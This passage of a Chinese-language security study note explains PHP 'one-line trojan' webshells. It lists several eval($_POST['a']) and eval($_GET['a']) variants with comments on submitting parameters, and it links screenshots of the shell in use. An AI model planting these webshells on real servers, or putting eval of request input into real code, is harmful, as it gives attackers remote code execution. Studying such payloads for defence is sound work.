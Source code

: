因此可得：exec()一定要有东西接它



## 关于一句话木马

```
<?php
eval($_POST['a'])        //需要与web互动，那么需要post或get提交的语句
?>

<?php eval($_POST['a']) ?>     //一句话木马
# 将post进来的abc参数的参数值当做php代码执行

<?php eval($_GET['a']) ?>
# 或get提交

#提交时记得输入分号
或<?php eval($_GET['a'].";") ?>
就不需要输入分号

一句话木马越小越好：
<?php eval($_POST['a']) ?> 
```

那么此时去传参处输入指令：

![image-20220116193713740](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E8%AE%A4%E8%AF%86%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC.assets/image-20220116193713740.png)

![image-20220116193810594](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E8%AE%A4%E8%AF%86%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC.assets/image-20220116193810594.png)
